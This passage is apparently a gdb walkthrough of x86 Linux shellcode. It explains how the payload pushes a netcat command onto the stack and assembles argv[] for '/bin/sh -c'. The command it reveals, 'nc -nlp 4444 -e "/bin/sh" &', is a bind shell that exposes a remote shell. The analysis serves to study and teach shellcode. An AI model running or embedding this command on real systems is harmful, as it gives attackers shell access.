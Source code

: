 ### Pushing our Netcat Command string onto the Stack
```console
=> 0x0804a057 <+23>:    push   edx
   0x0804a058 <+24>:    call   0x804a079 <code+57>
   0x0804a05d <+29>:    outs   dx,BYTE PTR ds:[esi]
   0x0804a05e <+30>:    arpl   WORD PTR [eax],sp
   0x0804a060 <+32>:    sub    eax,0x20706c6e
   0x0804a065 <+37>:    xor    al,0x34
   0x0804a067 <+39>:    xor    al,0x34
   0x0804a069 <+41>:    and    BYTE PTR ds:0x2f222065,ch
   0x0804a06f <+47>:    bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804a072 <+50>:    das    
   0x0804a073 <+51>:    jae    0x804a0dd
   0x0804a075 <+53>:    and    ah,BYTE PTR [eax]
   0x0804a077 <+55>:    add    BYTE PTR es:[edi+0x53],dl
```
+ `push   edx` pushes a Null Dword onto the stack
  - we need this to end the argv[] array that will be pointed to by the ecx register.
+ `call   0x804a079 <code+57>` is push the following netcat string onto the stack, and jump over the string.
+ All of the other strings shown in this block are just the netcat string.

#### argv[] on the Stack
```console
0000| 0xbffff4c6 --> 0x804a05d ("nc -nlp 4444 -e \"/bin/sh\" &")
0004| 0xbffff4ca --> 0x0 
```
+ These fufill the last 2 of the 4 addresses we need for our argv[] array.

### Finishing up argv[]
+ As we will see, our disassembling failed us at the last few commands. When stepping through the execution with gdb we see what really is being executed.

```console
=> 0x804a079 <code+57>: push   edi
   0x804a07a <code+58>: push   ebx
   0x804a07b <code+59>: mov    ecx,esp
```
+ `push edi` is used to push the pointer to our "-c" flag onto the stack.

```console
EDI: 0xbffff4d6 --> 0x632d ('-c')
```
+ `push   ebx` is used to push the pointer to our program filepath string to the stack.
+ `mov    ecx,esp` points our ecx register to our array of memory pointers to fufill our argv[] array.

### Final argv[] Stack
```console
0000| 0xbffff4be --> 0xbffff4ce ("/bin/sh")
0004| 0xbffff4c2 --> 0xbffff4d6 --> 0x632d ('-c')
0008| 0xbffff4c6 --> 0x804a05d ("nc -nlp 4444 -e \"/bin/sh\" &")
0012| 0xbffff4ca --> 0x0 
```
